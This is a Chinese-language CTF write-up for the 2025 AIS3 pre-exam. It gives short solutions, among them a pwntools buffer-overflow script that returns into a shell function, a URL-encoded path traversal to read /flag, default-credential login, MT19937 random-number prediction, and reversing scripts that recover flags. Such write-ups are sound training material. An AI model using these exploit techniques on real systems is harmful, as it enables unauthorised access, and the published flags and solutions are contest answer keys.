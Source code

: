 ```yaml
---
title: "2025 ais3 pre-exam write up"
date: 2025-07-25
draft: false
description: "a description"
tags: ["ctf", "writeups"]
---
```

# 2025 ais3 pre-exam write up

## login screen 1

於login page 嘗試 admin/admin 成功登入
觀察 dockr-compose.yml
![image](https://hackmd.io/_uploads/ByiXR2Vfgl.png)
發現 db 可以訪問
下載後得到 2fa code
![image](https://hackmd.io/_uploads/rkluRnVzgl.png)
成功登入取得 flag

## tomorin db

直接進入 /flag 會被 redirect

將`/` URL encode，進入
chals1.ais3.org:30000/..%2fflag
取得flag

## Welcome to the World of Ave Mujica

- 動態分析發現可以 burrfer overflow
- 丟進 ida 發現 0x401256 有一個 shell

![image](https://hackmd.io/_uploads/H1SD4aVMxe.png)

- 使用 cyclic 計算 offset
將 return address 覆蓋為 0x4012D6 取得 shell

``` python
import pwn

host = "chals1.ais3.org"
port = 60122
conn = pwn.remote(host, port)
# conn = pwn.gdb.debug("./chal", env={"LD_PRELOAD": "./libc.so.6"})

conn.recvuntil(b'?')
conn.sendline(b'yes')
conn.recvuntil(b': ')
conn.sendline(b'-1')
conn.recvuntil(b': ')

g = pwn.cyclic_gen()
conn.sendline(g.get(168) + pwn.p64(0x4012D6))
```

## raman CTF

掃描 qrcode 將發票號碼填入發票 app 在使用 google map 搜尋地址取得flag

![image](https://hackmd.io/_uploads/BJbASpNGlx.png)


## AIS3 Tiny Server - Web / Misc

題目提到root directory嘗試進入 chals1.ais3.org:20616//
成功取得flag
![image](https://hackmd.io/_uploads/HyBzwTEfge.png)
取得flag

## Welcome

照著打
![image](https://hackmd.io/_uploads/Sy5KPaVfxe.png)

## Stream

可以暴力嘗試 a 並檢查 b 是否為完全平方數可以取得每輪使用的隨機數
因為 getrandbits() 使用 mt19937 ，只要取得 634*32bits 的已知隨機數可以預測後續生成之隨機數。

```python!
from random import getrandbits
from hashlib import sha512
import gmpy2
from pyrandcracker import RandCracker


def rev(a: bytes, b: int):
    return int.from_bytes(a) ^ b


craker = RandCracker()

randbyte = []

for i in l:
    for j in range(256):
        r = rev(sha512(j.to_bytes()).digest(), i)
        if gmpy2.is_square(r):
            craker.submit(gmpy2.isqrt(r), 256)
craker.check()
        
print((l[80]^craker.rnd.getrandbits(256)**2).to_bytes(32, 'big'))
```
![image](https://hackmd.io/_uploads/r1LZ_aEGxg.png)

## AIS3 Tiny Server - Reverse

丟進 IDA 可以看到 sub_1E20() 這個function會檢查flag

![image](https://hackmd.io/_uploads/r1iXpTEGlg.png)
![image](https://hackmd.io/_uploads/HkbLTT4Mxe.png)

寫腳本還原 flag
```python

import struct

def extract_flag():
    encrypted_data = [
        1480073267, 
        1197221906, 
        254628393,  
        920154,     
        1343445007, 
        874076697,  
        1127428440, 
        1510228243, 
        743978009,  
        54940467,   
        1246382110  
    ]
    

    encrypted_bytes = []
    for num in encrypted_data:
        bytes_from_int = struct.pack('<I', num)
        encrypted_bytes.extend(bytes_from_int)
    
    # The XOR key from v7
    key = b"rikki_l0v3"
    

    
    encrypted_bytes.append(20) 
    
    decrypted = bytearray(45)  
    
    v2 = 51 
    v3 = 114
    
    for i in range(45):
        decrypted[i] = v2 ^ v3
        
        if i + 1 < 45:
            v2 = encrypted_bytes[i + 1]
            v3 = key[(i + 1) % len(key)] 

    flag = decrypted.decode('ascii', errors='ignore').rstrip('\x00')
    return flag

if __name__ == "__main__":
    flag = extract_flag()
    print(f"flag: {flag}")
```
取得flag
![image](https://hackmd.io/_uploads/BJVHCa4Mel.png)

## A simple snake game

逆向發現有一個檢查分數和關卡的地方
![image](https://hackmd.io/_uploads/r1izfCEMle.png)
patch 成 jg
![image](https://hackmd.io/_uploads/rkcAMANfle.png)
進入遊戲取得 flag
![image](https://hackmd.io/_uploads/S1yEzANGll.png)

## web flag checker

從 source 可以看到 wasm
有一個函式叫 flag checker
![image](https://hackmd.io/_uploads/SJlC7C4fxg.png)
丟給 claude 幫忙 reverse 並撰寫腳本

```python!
import struct

def ror64(value, shift):
    """64-bit right rotation (inverse of left rotation)"""
    value &= 0xFFFFFFFFFFFFFFFF
    shift &= 63
    return ((value >> shift) | (value << (64 - shift))) & 0xFFFFFFFFFFFFFFFF



def solve_flag_properly():
    expected_encrypted = [
        7577352992956835434,    # Chunk 0: "AIS3{W4S" with ROR 45
        7148661717033493303,    # Chunk 1: "M_R3v3rs" with ROR 28  
        (-7081446828746089091) & 0xFFFFFFFFFFFFFFFF,  # Chunk 2: needs brute force
        (-7479441386887439825) & 0xFFFFFFFFFFFFFFFF,  # Chunk 3: needs brute force
        8046961146294847270     # Chunk 4: "39229dd}" with ROR 61
    ]
    for i in range (5):
        print(f"\n--- Finding Chunk {i} ---")
        encrypted2 = expected_encrypted[i]
        best_chunk2_candidates = []

        for key in range(64):
            decrypted = ror64(encrypted2, key)
            try:
                bytes_data = struct.pack('<Q', decrypted)
                text = bytes_data.decode('ascii', errors='replace')
                printable_count = sum(1 for c in text if c.isprintable() and c != '�')

                if printable_count >= 6:
                    best_chunk2_candidates.append((key, bytes_data, text, printable_count))
            except:
                continue
        for key, data, text, score in best_chunk2_candidates[:10]:
            print(f"  Key {key:2d}: {text}")

    
  
if __name__ == "__main__":

    solve_flag_properly()
    

```

![image](https://hackmd.io/_uploads/B13AI04Glx.png)

組合 flag 得到 AIS3{W4SM_R3v3rsing_w17h_g0_4pp_39229dd}

---

## 心得

總覺的今年特別捲，每題打完過沒多久就變100分到底想怎樣。


